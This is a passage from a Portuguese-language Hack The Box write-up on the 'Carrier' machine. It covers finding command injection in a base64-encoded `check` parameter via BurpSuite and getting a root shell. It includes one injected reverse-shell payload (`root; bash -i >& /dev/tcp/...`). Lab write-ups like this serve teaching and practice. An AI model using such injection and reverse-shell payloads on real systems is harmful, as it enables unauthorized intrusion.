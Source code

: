 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_web6.png)

Muito interessante, pelo que parece, é a saida do comando `ps aux`

## Identificando RCE

Bom, vamos jogar essa página para o BurpSuite, lá podemos verificar com mais calma pra ver o que está acontecendo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_burp.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_burp1.png)

Mandamos pro Repeater

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_burp2.png)

Depois de um tempo olhando o comportamento da aplicação, verificamos que o parâmetro `check` é um base64 `check=cXVhZ2dh`

Verificamos do que se trata é `quagga` em base64

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_burp3.png)

Roteamento dinâmico, interessante...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_burp4.png)

Pra conseguir RCE aqui é relativamente simples, uma vez que está sendo executado comandos, se colocarmos `root` serão mostrados os processos de root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_burp5.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_burp6.png)

Agora, se colocarmos `root; bash -i >& /dev/tcp/10.10.16.3/443 0>&1` serão executados os dois comandos

# Ganhando Shell de root em r1

Então vamos lá

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_burp7.png)

Executamos (Lembrar de dar URL Encode - Control + U - pq tem chars ai que devem ser encodados)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_burp8.png)

Recebemos o shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-carrier/C_burp9.png)

Bom agora vamos iniciar a enumeração dessa máquina
